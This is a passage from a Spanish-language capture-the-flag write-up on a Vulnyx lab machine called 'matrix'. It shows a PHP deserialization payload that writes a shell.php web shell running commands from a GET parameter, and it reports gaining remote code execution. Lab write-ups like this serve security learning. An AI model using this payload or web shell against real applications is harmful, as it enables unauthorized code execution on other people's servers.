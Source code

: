 Lo ejecutamos y esto es lo que enviaremos.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/matrix]
└─$ php serialize.php 
O:7:"Message":2:{s:4:"file";s:9:"shell.php";s:7:"message";s:33:"<?php echo exec($_GET["cmd"]); ?>";}
```

![alt text](../../../assets/images/matrix/image-12.png)

Ahora ya tenemos un RCE con el fichero que se ha creado `shell.php` con la deserialización del mensaje en PHP.

![alt text](../../../assets/images/matrix/image-13.png)
